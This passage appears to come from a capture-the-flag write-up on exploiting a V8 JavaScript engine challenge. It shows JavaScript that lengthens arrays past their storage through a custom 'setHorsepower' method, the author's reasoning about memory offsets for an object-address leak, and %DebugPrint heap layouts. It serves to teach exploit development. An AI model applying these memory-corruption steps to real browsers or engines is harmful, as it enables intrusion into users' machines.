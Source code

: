 ```javascript
var float_arr = [1.5, 2.5];
float_arr.setHorsepower(50);
var float_map = float_arr[2];             // both map and properties


var initial_obj = {a:1};	          // placeholder object
var obj_arr = [initial_obj];
obj_arr.setHorsepower(50);
```

My initial thought was to create an array like this:

```javascript
var obj_arr = [3.5, 3.5, initial_obj];
```

And then I could slowly increment the index of `float_arr`, reading along in memory until we came across two `3.5` values in a row. I would then know that the location directly after was our desired object, making a reliable leak. Unfortunately, while debugging, it seems like mixed arrays are not _quite_ that simple (unsurprisingly, perhaps). Instead, I'm gonna hope and pray that the offset is constant (and if it's not, we'll come back and play with the mixed array further).

Let's determine the offset. I'm gonna `%DebugPrint` `float_arr`, `obj_arr` and `initial_obj`:

```javascript
DebugPrint: 0x30e008085931: [JSArray]
 - map: 0x30e0082439f1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x30e00820ab61 <JSArray[0]>
 - elements: 0x30e008085919 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
 - length: 50
 - properties: 0x30e00804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x30e0080446d1: [String] in ReadOnlySpace: #length: 0x30e00818215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
 - elements: 0x30e008085919 <FixedDoubleArray[2]> {
           0: 1.5
           1: 2.5
 }
DebugPrint: 0x30e008085985: [JSArray]
 - map: 0x30e008243a41 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x30e00820ab61 <JSArray[0]>
 - elements: 0x30e008085979 <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 50
 - properties: 0x30e00804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x30e0080446d1: [String] in ReadOnlySpace: #length: 0x30e00818215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
 - elements: 0x30e008085979 <FixedArray[1]> {
           0: 0x30e00808594d <Object map = 0x30e0082459f9>
 }

DebugPrint: 0x30e00808594d: [JS_OBJECT_TYPE]
 - map: 0x30e0082459f9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x30e008202f11 <Object map = 0x30e0082421b9>
 - elements: 0x30e00804222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x30e00804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x30e0080477ed: [String] in ReadOnlySpace: #a: 1 (const data field 0), location: in-object
 }
```

